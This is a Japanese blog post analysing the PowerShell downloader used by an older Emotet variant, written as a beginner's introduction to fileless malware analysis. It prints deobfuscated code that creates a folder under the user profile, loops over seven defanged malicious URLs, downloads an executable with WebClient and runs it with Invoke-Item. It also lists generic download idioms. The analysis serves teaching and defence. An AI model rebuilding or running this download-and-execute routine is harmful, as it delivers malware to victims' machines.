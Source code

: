 # Emotetを知る(oldversion)

以前にEmotetについて解析したが、それ以前のEmotetはどうだったのか？というの記録しておきたい。  

Emotetが何か？ということについては、前の記事で書いたので、是非そちらを見ていただきたい。  
[Emotetの記事](https://blog.tech-oshiba.com/2022/02/05/%e3%83%9e%e3%83%ab%e3%82%a6%e3%82%a7%e3%82%a2emotet%e3%82%92%e8%aa%bf%e3%81%b9%e3%82%8b)

で、ここで見ていきたいのはEmotetの旧バージョンとなる。  
これは、2020年末ごろに流行ったタイプであり、以下3つを特徴と考えている。  
1. powershellをダウンローダーとして利用する  
2. powershellの起動は、WMIのAPIを経由することで、macroマルウェアが親プロセスとしては起動しない  
3. calc.exeを任意の名前にコピーしてProcessHollowingを使って悪用する  

ProcessHollowingについては、恐らくわからない方もいると思うが、コードインジェクションの手法の１つだとご理解いただきたい。  
ProcessHollowingのインジェクションとしての1つの特徴としては、サスペンドモードでプロセスを起動するため、起動中のプロセスには行えない手法であり、これが行われているプロセスにおいては親プロセスが悪性であるということになる。  

で、私が見ていきたいところとして、このpowershellを使ったダウンロード操作のところになる。  
理由は、ファイルレスマルウェアであること、そしてpowershellのファイルレスマルウェアをダウンローダーとすることはごく一般的であるということにある。  
最後の理由としては、ちょっとした難読化がされているがそれがとても簡単なものになっており、最初にとっかかるのにはとてもいいと思ったことだ。  

さて、それでは見ていこう。  

## コード内容  

powershellマルウェアのコードをここにそのまま載せてしまうとまずいことになりかねないので、まずは全体像を画像で載せる。

![powershellコード全体](https://raw.githubusercontent.com/proshiba/analysis/main/emotet2/powershellcommand.png)

上に乗せたbase64でエンコードされたコマンドを、マクロマルウェアが実行する。ただし、その際にはWMIのAPIを経由してプロセス生成をする形で実行する。  
Note: wmicコマンドでいう、wmic process call create の結果と同等  

で、その内容をデコードした結果が下になっている。  
この難読化はとてもわかりやすい内容になっており、結局は文字列の分割をしているに過ぎない。それも普通に前から足して行けばなんとかなるレベルである。  

さて、それではここから見ていくが、まずは;(セミコロン)の位置で改行をして見やすくして見る。  
その際に、最初の行はいかだ。  
```powershell
$Vmpbaf3=(('P'+'er')+('e'+'wky'));
```

ここで説明してしまうのが早いが、'p'+'er'はperであり、それらを結合した後の、(Per)+(ewky)はPerewkyとなる。  
今回作成されているコマンドは全てこの調子で書かれている。  
その次に書かれている以下のコマンドはディレクトリの作成が書かれている。  
```powershell
&('new-'+'i'+'tem') $Env:usERProFILe\wYhZObX\ca1jHTV\ -itemtype DIrectOry;
```

このコマンドは以下のフォルダ作成となる。  
* %userprofile%¥wyhzobx¥ca1jhtv

なんとなく見るとわかるが、このコマンドはnew-itemというコマンドレットで、itemtypeとしてはdirectoryになっている。  
その際のフォルダ名が上のものであり、このフォルダを作ることになっている。  

さて、ここで２つほど説明を追加しておく。  
- $envについて:　$envは環境変数を指定する際のものであり、この場合は環境変数のuserprofileを参照している  
- 大文字小文字について: 大文字小文字はpowershellコマンドでは意識されない  
  なので、$Env:usERProFILeと$env:userprofileは同じもの
- &は実行演算子。その後に続く文字列を式として実行(この場合はnew-item)  

ここから先もこの点だけ理解しておけば読み進めていくことができる。  
まずは、以下の通りファイル名が定義されている。  
```powershell
$Ihsmwpx = "Myf5gg";
$tmp='MiuWyhzobxMiuCa1jhtvMiu'                     
$tmp2=($tmp).RePLacE("Miu",'\')
$Is_jn7b=$env:user[xxx]profile+$tmp2+$Ihsmwpx+'.exe'
```
Note: おかしな検知がないように一部無害化  

ここでは、MiuWyhzobxMiuCa1jhtvMiuという文字列に対して、replaceメソッドを呼んでいる。  
この、文字列のreplaceも難読化ではよくあるやり方だ。  
この変換をすると結果は以下になる。  
¥Wyhzobx¥Ca1jhtv¥

$env:userprofileはユーザホームディレクトリのため、これらを結合した結果は以下だ。  
- c:¥users¥{ユーザ名}¥Wyhzobx¥Ca1jhtv¥Myf5gg.exe

さて、これがダウンロード後のファイル名となる。  
で、この先ではpowershellのダウンロード先URLが定義されている。  

やってることは、ざっくり以下の順番である。  
1. webclientのインスタンスを生成(ダウンロード処理の前準備)  
2. URLを定義(複数あるため、配列で定義)  
3. 定義したURLをforeachで回し、ダウンロード  
4. ダウンロードしたデータサイズが27871Byte以上なら実行  

さて、まずはwebclientのインスタンス生成とURL定義について記載する。  
まずは、見やすいように整形した結果が以下である。  
```powershell
$L2v3tao=new-object net.web[xxx]client;         
$Lxm3ldw=(                                      
    "hxxp://crbremen[x]com/WordPress_01/A/",
    "hxxp://creixenti[x]com/stations/rV/",   
    "hxxp://e-brand[x]org/cgi-bin/oJ/",         
    "hxxp://earthinnovation[x]org/gcfimpact/8h/",
    "hxxp://cooptotoral[x]com/Admin/6BO/",   
    "hxxp://commeavant[x]com/Harvey_files/b/",
    "hxxp://fruehling[x]tv/arbeit/zR/"          
)                                               
# URLはマスク
```
これは、もともと以下のようになっていた。(一部省略。また改行だけは入れている。)  
```
$L2v3tao=&('ne'+'w-ob'+'jec'+'t') net.WebclieNt;
$Lxm3ldw=('h'+('t'+'tp')+':'+('/'+'/crb'+'r')+〜省略〜."S`Plit"([char]42);
```

ここでも実行演算子を入れており、内容はnew-object。インスタンスの生成であり対象クラスはnet.webclientというものだ。  
このwebclientは非常に使いやすいものであり、powershellのダウンローダでは必須レベルで使われている。多くの場合、以下の使い方だ。  

1. 文字列をダウンロード  
```powershell
(new-object net.webclient).downloadstring("URL")
```

2. データをダウンロード  
```powershell
(new-object net.webclient).downloaddata("URL")
```

3. ファイルとしてダウンロード  
```powershell
(new-object net.webclient).downloadfile("URL", "ファイル名")
```

次に、URLの定義は一旦文字列として定義後、split関数で分割している。この際に、splitで分割するための文字を[char]42としているが、これはASCIIコードで文字を定義している。  
これも難読化でよく利用される。この場合、[char]42は「*」(アスタリスク)である。この文字で分割すると上に書いたURLの配列となるわけだ。  

さあ、ここまでくるとほぼ終了であるが、最後に実際のダウンロード処理と実行操作がある。そこを見てみよう。  

```powershell
foreach($Pdh_rn7 in $Lxm3ldw){
  try{
    # 関数をマスク
    $L2v3tao.down[xxx]load[xxx]file($Pdh_rn7, $Is_jn7b);
    $Xeq9tdw="Jgn_wbs";
    If (Get-Item $Is_jn7b).LengTh -ge 27871)
      Invoke-Item $Is_jn7b;
      $N547p41="Flg7a8a";
      break;
      $J7p06nv="J5uwq52"
    }
  }catch{}
}
```

特徴的な難読化はされていないので、ここは元コードは割愛した。  
この中では今までに示してきたwebclientのdownloadfileを利用している。  
また、ダウンロードしたファイルについて、get-itemとlengthでデータサイズをチェックし、27871Byte以上なら、Invoke-Itemで実行するという流れだ。  
このInvoke-Itemは、エイリアスのiiやStart-Processを利用することもある。  

さて、これでダウンロードして実行する処理までが見れた。この先はダウンロードしたマルウェアの挙動になり、powershellはここで終了となる。  

今回のpowershellマルウェアの解析は以上です。  
初級レベルのものだと思いますが、ファイルレスマルウェアの解析を始める上でとっかかりのための情報として役に立てば幸いです。
